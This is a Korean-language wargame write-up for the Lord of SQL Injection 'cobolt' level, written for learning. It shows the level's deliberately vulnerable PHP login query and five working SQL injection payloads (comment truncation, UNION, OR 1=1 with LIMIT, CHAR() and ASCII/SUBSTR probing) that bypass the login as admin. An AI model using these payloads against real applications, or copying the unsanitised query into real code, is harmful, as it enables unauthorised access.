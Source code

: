 ```yaml
---
title: Lord of SQL Injection Write Up No.2 Cobolt
date: 2019-08-13 20:47:11
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 2번 cobolt 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

SQL Injection을 통해 원하는 값을 `SELECT` 하도록 조작할 수 있는지 확인한다.

### 필요 배경 지식

#### LIMIT

MySQL에는 `SELECT`절에 `LIMIT`이라는 구문을 이용하여 반환되는 행을 제한하는 기능이 있다.
[MySQL Documentation](https://dev.mysql.com/doc/)에서 [SELECT절에 대한 문서](https://dev.mysql.com/doc/refman/5.7/en/select.html)를 찾아보면 다음과 같은 부분을 찾을 수 있다.

```sql
SELECT * FROM tbl LIMIT 5,10;  # Retrieve rows 6-15
```

즉, `SELECT` 절의 마지막에 `LIMIT 1,2` 를 붙이면 테이블에서 조건에 맞는 행 중 첫 번째(Index 0) 행부터가 아닌 **두 번째**(Index 1) 행부터 **두 개의** 행만 가져오게 된다.

### 소스 코드 분석

cobolt 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
  highlight_file(__FILE__);
?>
```

1~6번 줄은 1번 문제와 동일하다.

#### Query

```php
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
```

- 받은 `id`와 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 1번 문제와 거의 동일하며, 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. `admin` 문자열 직접 삽입

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'-- -
   ```

   ```sql
   select id from prob_cobolt where id='admin'-- -' and pw=md5('')
   ```

   이는 결국 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

2. `UNION` 구문 이용

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' union select 'admin'-- -
   ```

   ```sql
   select id from prob_cobolt where id='' union select 'admin'-- -' and pw=md5('')
   ```

   이는 결국 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

3. `LIMIT` 구문 이용

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or 1=1-- -
   ```

   ```sql
   select id from prob_cobolt where id='' or 1=1-- -' and pw=md5('')
   ```

   이는 테이블의 모든 행을 불러오도록 조작하는 SQL Injection이다. 이를 수행하면 다음과 같은 문자열이 응답에 포함된다.

   ```txt
   Hello rubiya
   You are not admin :(
   ```

   이 문자열로 미루어 보아 테이블에 `admin`이라는 `id`를 가진 행이 있을 것임을 추측할 수 있다.

   또한 현재는 테이블의 `rubiya`라는 `id`를 가진 첫 번째 행이 들어가지만 `$result['id']`에 들어가는 행을 하나씩 당겨보는 것을 `id`가 `admin`인 행에 도달할 때까지 반복하면 문제가 풀릴 것임을 추측할 수 있다.

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or 1=1 limit 1,1-- -
   ```

   ```sql
   select id from prob_cobolt where id='' or 1=1 limit 1,1-- -' and pw=md5('')
   ```

   위 SQL Injection은 prob_cobolt 테이블의 2번째 행의 `id`가 `admin`이기 때문에 결국 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

4. `CHAR()` 함수 및 ASCII 코드 활용

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or id=char(97, 100, 109, 105, 110)-- -
   ```

   ```sql
   select id from prob_cobolt where id='' or id=char(97, 100, 109, 105, 110)-- -' and pw=md5('')
   ```

   이는 ASCII에서 10진수 표기를 문자 표기로 바꿔주는 MySQL 함수인 `CHAR`를 이용하여 `id`가 `admin`인 행을 찾아 선택하도록 만든다.

   ASCII에서, `'a'`=`97`, `'d'`=`100`, `'m'`=`109`, `'i'`=`105`, `'n'`=`110`이다.

   따라서 이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

5. ASCII(), SUBSTR() 함수 및 ASCII 코드 활용

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or ascii(substr(id, 1, 1))=97-- -
   ```

   ```sql
   select id from prob_cobolt where id='' or ascii(substr(id, 1, 1))=97-- -' and pw=md5('')
   ```

   이는 ASCII에서 문자 표기자 10진수 표기로 바꿔주는 MySQL 함수인 `ASCII`를 이용하여 `id`가 `a`로 시작하는 행을 찾아 선택하도록 만든다.

   이번에는 운이 좋아 `a`로 시작하는 첫번째 행이 `admin`이었지만, 만약 안되면 1번째 글자가 `a`, 2번째 글자가 `d`, 3번째 글자가 `m`, 4번째 글자가 `i`, 5번째 글자가 `n`인 행을 찾도록 조작하면 된다.

   ASCII에서, `'a'`=`97`이다.

   따라서 이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.
